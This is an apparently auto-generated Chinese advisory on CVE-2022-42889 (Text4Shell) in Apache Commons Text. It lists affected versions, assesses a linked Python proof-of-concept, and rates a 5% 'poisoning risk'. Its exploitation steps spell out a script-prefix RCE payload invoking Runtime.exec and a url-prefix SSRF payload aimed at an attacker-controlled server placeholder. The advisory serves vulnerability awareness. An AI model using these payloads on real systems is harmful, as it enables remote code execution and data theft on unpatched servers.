 ## CVE-2022-42889-Apache Commons Text-RCE/SSRF

**漏洞编号:** CVE-2022-42889

**漏洞类型:** 远程代码执行 (RCE) / 服务器端请求伪造 (SSRF)

**影响应用:** Apache Commons Text

**危害等级:** 高危，可能导致远程代码执行或服务器端请求伪造

**影响版本:** < 1.10.0 (1.5 <= version <= 1.9)

**利用条件:** 应用程序使用受影响的Apache Commons Text版本，并且允许用户可控输入被用于文本插值。

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

CVE-2022-42889，也被称为Text4Shell，是Apache Commons Text 1.5到1.9版本中的一个严重漏洞。该漏洞允许攻击者通过构造包含恶意表达式的字符串，利用文本插值功能执行任意代码（RCE）或发起服务器端请求伪造（SSRF）攻击。

**有效性分析：**

提供的POC代码是一个Python脚本，旨在测试目标系统是否存在Text4Shell漏洞。该脚本支持两种模式：

*   **RCE模式：** 利用`script`前缀，尝试执行JavaScript命令。具体而言，它使用Nashorn引擎（在Java 15及更高版本中默认禁用）来执行操作系统命令。如果目标系统启用了Nashorn引擎，则可能成功执行RCE攻击。
*   **SSRF模式：** 利用`url`前缀，尝试从指定的URL获取内容。这可能导致服务器向攻击者控制的服务器发出请求，从而泄露敏感信息或进行其他攻击。

根据NVD信息和搜索引擎结果，该漏洞影响Apache Commons Text 1.5到1.9版本，利用的关键在于应用程序是否接受用户可控的输入并将其传递给`StringSubstitutor.replace()`等插值方法。

因此，该POC代码在特定条件下是有效的。如果目标系统使用了受影响的Apache Commons Text版本，并且允许用户输入参与文本插值，那么攻击者就可以利用该漏洞。

**投毒风险分析：**

对提供的POC代码进行分析，可以发现其中存在轻微的投毒风险。虽然脚本本身的功能是测试漏洞，但如果攻击者修改脚本，例如：

*   **修改RCE命令：** 将测试命令替换为恶意命令，例如下载并执行恶意程序。
*   **修改SSRF URL：** 将SSRF目标URL替换为指向包含恶意内容的URL，例如包含恶意JavaScript代码的页面。
*   **增加额外功能** 添加未经授权的信息收集功能。

这些修改可能会导致用户在不知情的情况下受到攻击。

因此，评估的投毒风险为5%。主要集中在使用人员的安全意识上，是否存在下载后未进行代码审核直接执行的情况。

**利用方式：**

1.  **确定目标系统使用的Apache Commons Text版本是否在受影响范围内 (1.5-1.9)。**
2.  **找到应用程序中接受用户输入并使用Apache Commons Text进行文本插值的位置。**
3.  **构造包含恶意表达式的字符串，例如：**
    *   `${script:javascript:java.lang.Runtime.getRuntime().exec('malicious_command')}` (RCE，需要Nashorn引擎支持)
    *   `${url:UTF-8:http://attacker_controlled_server/resource}` (SSRF)
4.  **将构造的恶意字符串作为用户输入传递给应用程序。**
5.  **如果漏洞利用成功，攻击者将能够执行任意代码或发起SSRF攻击。**

**项目地址:** [808ale/CVE-2022-42889-Text4Shell-POC](https://github.com/808ale/CVE-2022-42889-Text4Shell-POC)

**漏洞详情:** [CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889)